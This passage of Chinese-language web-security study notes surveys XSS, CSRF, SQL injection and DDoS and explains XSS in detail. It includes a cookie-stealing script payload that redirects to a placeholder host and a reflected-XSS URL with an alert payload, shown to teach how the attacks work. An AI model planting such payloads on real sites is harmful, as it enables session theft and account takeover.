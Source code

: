 [TOC]

### HTTPS与网络安全

#### Web攻击技术

总结一下常见的 Web 攻击方法。

- **XSS 攻击**: 关键是脚本，利用恶意脚本发起攻击。
- **CSRF 攻击**: 关键是借助本地 Cookie 进行认证，伪造发送请求。
- **SQL 注入**: 关键是通过用 SQL 语句伪造参数发出攻击。
- **DDOS 攻击**: 关键是发出大量请求，最后令服务器崩溃。

##### 1.跨站脚本攻击XSS

###### (1)概念

跨站脚本攻击(Cross-Site Scripting, XSS) **指攻击者向用户请求的 HTML 页面中插入恶意脚本，从而可以执行任意脚本**。XSS 可以将**代码**(包括 HTML 和 JS 代码) 注入到**用户浏览的网页**上，达到如盗取用户的 **cookie**，改变网页的 DOM 结构，重定向到其他网页等攻击的目的。

主要分为：反射型 XSS、存储型 XSS、DOM 型 XSS。

**危害**：窃取用户的 Cookie、伪造虚假的输入表单骗取个人信息、显示伪造的文章或图片等。

###### (2)攻击原理

例如有一个**论坛网站**，攻击者可以在上面发布以下内容：

```html
<script>location.href="//domain.com/?c=" + document.cookie</script>
```

被攻击之后该内容可能会被**渲染**成以下形式：

```html
<p><script>location.href="//domain.com/?c=" + document.cookie</script></p>
```

另一个用户浏览了含有这个内容的页面将会跳转到 domain.com 并携带**当前作用域的 Cookie**。如果这个论坛网站通过 Cookie 管理用户登录状态，那么攻击者就可以通过这个 Cookie 登录被攻击者的账号。

###### (3)攻击分类举例

**① 反射型XSS**

又称为非持久性跨站点脚本攻击，它是最常见的类型的 XSS。漏洞产生的原因是攻击者注入的数据反映在响应中。一个典型的非持久性 XSS 包含一个带 XSS 攻击向量的链接，即每次攻击需要用户的点击。

**简单例子**：正常发送如下消息，接收者将会接收信息并显示 Hello,Word。

```http
http://www.test.com/message.php?send=Hello,World
```

非正常发送如下消息，接收者接收消息显示的时候将会弹出警告窗口。

```http
http://www.test.com/message.php?send=<script>alert(‘foolish!’)</script>
```

**② 持久型XSS**
